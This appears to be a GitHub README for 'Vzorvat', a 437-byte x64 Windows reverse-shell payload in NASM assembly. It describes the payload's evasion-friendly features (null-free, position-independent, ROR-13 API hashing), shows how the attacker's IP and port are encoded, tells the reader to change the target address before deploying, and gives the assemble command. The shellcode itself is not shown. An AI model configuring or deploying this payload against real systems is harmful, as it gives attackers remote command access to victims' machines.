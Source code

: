 ![logo](https://i.ibb.co/MxLcQSkF/Chat-GPT-Image-Apr-15-2025-12-35-16-AM.png)
# 'Vzorvat' - x64 Windows Reverse Shell

A position-independent, null-free x64 reverse shell payload for Windows systems, written in assembly (437 Bytes & NASM Syntax).

## Overview

'Vzorvat' is a lightweight assembly-based reverse shell that creates a TCP connection, then spawns CMD with redirected standard I/O.  
It uses a custom API hashing technique to dynamically resolve Windows API functions; it handles ASLR gracefully.

## Features

- **Position Independent Code (PIC)**
- **Null-free**
- **API Resolution via ROR-13 Algo**
- **Small Footprint**: Minimal code size for efficient delivery

## Technical Details

### Connection Configuration

The socket connection is configured in the SOCKADDR_IN structure:
```assembly
mov r12, 0x0100007f611e0002 ; Format: sin_family, sin_port, sin_addr
```

Default configuration connects to 127.0.0.1 (localhost) on port 7777 (0x1e61).
Before deploying, modify the target address in the payload.

The IP and port are encoded as:
- Format: `[2 bytes: AF_INET][2 bytes: PORT][4 bytes: IPv4]`
- Example: `0x0100007f611e0002` *= AF_INET(2) + Port 7777 (0x1e61) + IP 127.0.0.1 (0x0100007f)*

### Assembling the Payload

```bash
nasm -f bin -o vzorvat.bin vzorvat.asm
```
